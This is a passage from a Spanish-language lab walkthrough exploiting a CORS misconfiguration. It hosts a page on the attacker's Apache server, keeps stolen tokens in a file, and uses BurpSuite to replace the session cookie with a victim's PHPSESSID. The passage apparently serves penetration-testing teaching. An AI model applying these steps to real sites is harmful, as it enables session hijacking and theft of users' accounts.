 Y en el mismo directorio tendra que ir el siguiente archivo:

> clear.sh

```bash
#!/bin/bash 

echo "" > stolen_tokens.txt 
echo "Texto limpiado!"
```

Todo este contenido del `exploit` tiene que estar en nuestro `/var/www/html` e iniciaremos el servicio de `apache2`:

```shell
service apache2 start
```

Ahora tendremos que acceder a nuestro `cors.html` desde la web:

```
URL = http://<IP_ATTACKER>/cors.html
```

Ahora estando a la escucha con `BurpSuite` tendremos que darle al boton `Obtener Datos`. `BurpSuite` capturara la peticion y cambiaremos la parte de `Cookie: PHPSESSID=<COOKIE_VICTIM>` quedando algo asi:

```
GET /dashboard.php HTTP/1.1
Host: 172.17.0.2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Origin: http://192.168.60.131
Connection: keep-alive
Referer: http://192.168.60.131/
Cookie: PHPSESSID=ist11l3vcbit5rqtqdnm68gqk8
Priority: u=0

```

Y si le damos al boton directamente de `Intercep on` veremos en la consola que salio todo perfecto:

<figure><img src="../../.gitbook/assets/image (293).png" alt=""><figcaption></figcaption></figure>

Y si vamos al archivo donde se guarda todo, veremos que funciono:
